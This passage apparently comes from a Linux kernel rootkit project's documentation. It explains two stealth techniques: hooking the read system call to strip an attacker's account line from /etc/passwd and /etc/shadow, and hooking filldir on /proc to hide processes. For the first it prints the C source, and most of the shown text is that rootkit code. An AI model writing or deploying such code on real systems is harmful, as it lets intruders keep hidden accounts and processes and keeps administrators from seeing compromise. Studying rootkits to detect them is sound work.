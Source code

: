 
(4) Hiding a credential by hijacking _read_ system call

Once the _file_ turns out to be a normal file from file descriptor, _fd_, then the idea is to assign three pointers pointing to the specific position. Then leave out specific strings and copy the remainder.The corresponding code is in _src/HJ_read.c_

    
    if(file) {
    	// Get the absolute path of current file
    	file_path = file->f_path;
    	path_get(&file->f_path);
    	tmp = (char *)__get_free_page(GFP_TEMPORARY);
    	abs_path = d_path(&file_path, tmp, PAGE_SIZE);
    	path_put(&file_path);
    	free_page(tmp);
    
    	ret = original_read(fd, buf, count);
    
    	// If the targeted file and some sanity checks
    	if(ret && (strcmp(abs_path, passwd) == 0 || strcmp(abs_path, shadow) == 0)) {
    		
    		// Allocate new buffer and copy string from user space
    		buf2 = kmalloc(ret, GFP_KERNEL);
    		copy_from_user(buf2, buf, ret);
    		/* 
    			Do string manipulation to hide an attacker's account
    			Set the three pointers, and leave out the target 
    		*/
    		ptr1 = buf2;
    		ptr2 = strstr(buf2, hide_str);
    		ptr3 = ptr2;
    		
    		while (*ptr3 != *delimiter)
    			ptr3++;
    			
    		ret -= (unsigned long)(ptr3 - ptr2);
    		buf_len_to_copy = ptr1 + strlen(buf2) - ptr3;
    		
    		ptr3++;
    		for (i = 0; i < buf_len_to_copy; i++)
    			*ptr2++ = *ptr3++;
    		buf2[(void*)ptr2 - (void*)ptr1] = NULL;
    		
    		// Copy the altered string to user space
    		copy_to_user(buf, buf2, ret);
    		kfree(buf2);
    	}
    }


(5) Hiding a process by hijacking _filldir_ system call

Since /_proc_ is a mounted file system in Linux, it should be able to provide a VFS interface to the user programs and library code to use. By hooking one of the interfaces, and replacing it with another, _my_filldir_, it allows to intercept its system call when user program tries to register the call back function instead. It will return 0 when having specified process to hide. The corresponding code is in _src/HJ_proc.c_.
